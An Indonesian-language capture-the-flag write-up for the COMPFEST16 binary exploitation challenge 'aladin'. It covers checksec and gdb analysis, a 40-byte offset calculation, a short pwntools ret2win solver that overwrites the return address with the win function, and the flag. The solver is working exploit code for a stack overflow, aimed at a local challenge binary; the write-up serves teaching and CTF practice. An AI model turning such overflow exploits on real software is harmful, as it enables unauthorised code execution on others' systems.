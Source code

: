 # aladin
### Category: Binary Exploitation

**Deskripsi:**
>terkadang sebuah perjuangan tidak hanya memerlukan usaha, tapi memerlukan bantuan dari dunia gaib, hehehe...
>
>Author: nabilmuafa

## Analisis
Pada Chall ini kita di berikan sebuah file binary, dikarenakan ini chall pwn/binary exploitation maka hal yang pertama kita lakukan yaitu 
melakukan checksec, untuk mengecek keamanan dari file tersebut

![Preview](images/1.png)

Disebutkan di sini no canary found yang artinya tidak ada byte random sebelum saved rbp, dan no pie yang artinya tidak ada pengacakan address
di dalam binary dan file nya 64 bit, maka dari itu kita bisa dengan mudah mengoverflow file ini.

langkah selanjutnya kita analisis file nya menggunakan gdb seperti ini

![Preview](images/2.png)

di lihat dari function yang ada, maka kita bisa simpulkan ini adalah chall ret2win
[link ini](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win)

kita coba analisis fungsi vuln nya

![Preview](images/3.png)

set rsp nya 0x20 atau 32 + save rbp 8 byte = 40, kita bisa menimpa buffer untuk menuju return address dan mengubah return tersebut menjadi return ke win.
kalau masih kurang yakin kita bisa menggunakan gdb untuk mencari letak offset
karena buffer nya 32 maka 32+8 byte rbp yaitu 40 atau bisa kalian crashing programnya dan mencari offset rsp
caranya sudah banyak di internet kalau masih kurang paham.

![Preview](images/4.png)

## Penyelesaian
kalau sudah dapat offset ke return address nya sekarang buat paylaod nya seperti ini
payload = offset + return win

sekarang kita buat solvernya 
**solver**
```
from pwn import *

elf = context.binary = ELF('./chall')

p = process()

payload = flat(b'a'*40,elf.sym.win)

p.sendline(payload)
p.interactive()
```

ketika di jalankan akan seperti ini

![Preview](images/4.png)

flag : `COMPFEST16{still_easy_ret2win_right?_a4e27d3beb}`

